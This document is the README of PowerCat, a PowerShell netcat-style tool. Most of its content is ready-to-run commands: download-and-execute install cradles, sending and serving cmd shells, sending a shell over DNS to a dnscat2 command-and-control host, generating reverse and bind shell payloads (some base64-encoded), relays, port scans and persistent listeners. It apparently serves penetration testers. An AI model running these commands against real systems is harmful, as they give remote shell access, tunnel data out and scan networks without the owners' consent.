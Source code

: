 PowerCat
========
A PowerShell TCP/IP swiss army knife. #requires -Version 2

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
    Import the functions from downloaded .psm1 File:
        Import-Module PowerCat.psm1
    Load the functions individually from URL:
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')

### Parameters:
    
    Invoke-PowerCat
    
    -Listener       Listen for a connection.                            [Switch]
    -Client         IPv4 address of a listener to connect to.           [String]
    -Port           The port to connect to, or listen on.               [Int]
    -Execute        Execute a process.                                  [String]
    -PowerShell     Execute Powershell.                                 [Switch]
    -Relay          Format: "-r tcp:10.1.1.1:443"                       [String]
    -Mode           Defaults to Tcp, can also specify Udp               [String]
    -Timeout        Timeout option. Default: 60                         [Int]
    -Input          Filepath (string), byte array, or string.           [Object]
    -OutputType     Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     Output File Path.                                   [String]
    -Disconnect     Disconnect after connecting.                        [Switch]
    -Repeat         Restart after disconnecting.                        [Switch]
    -Payload        Generate payload.                                   [Switch]
    -Encoded        Generate Base64 encoded payload.                    [Switch]
    
    Invoke-DnsCat
    
    -Server         Name of DnsCat2 server to connect to.               [String]
    -Threshold      DNS Failure Threshold.                              [Int]

Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
    Basic Listener:
        Invoke-PowerCat -Listener -Port 443
        
    Basic Client:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443
        
    Basic Client, Output as Bytes:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes

File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
    Send File:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    Recieve File:
        Invoke-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile

Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
    Serve a cmd Shell:
        Invoke-PowerCat -Listener -Port 443 -Execute cmd
        
    Send a cmd Shell:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    Serve a shell which executes powershell commands:
        Invoke-PowerCat -Listener -Port 443 -PowerShell

DNS and UDP
-----------
PowerCat supports more than sending data over TCP. Specify -Mode Udp to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) via Invoke-DnsCat.
###
    Send Data Over UDP:
        Invoke-PowerCat -Listener -Port 8000 -Mode Udp
        
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        Invoke-DnsCat -Client 10.1.1.1 -Port 53 -Server c2.example.com
        
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        Invoke-DnsCat -Server c2.example.com -Execute cmd

Relays
------
Relays in PowerCat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to UDP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    TCP Listener to DNS Client Relay
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:10.1.1.1:53:c2.example.com
        
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:::c2.example.com
        
    TCP Client to Client Relay
        Invoke-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to Listener Relay
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:9000

Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        Invoke-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    Generate a bind tcp encoded command which listens on port 8000:
        Invoke-PowerCat -Listener -Port 8000 -Execute cmd -Encoded

Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
    Basic TCP port scan:
        1..1024 | ForEach-Object { Invoke-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    Basic UDP port scan:
        1..1024 | ForEach-Object { Invoke-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    Persistent listener:
        Invoke-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
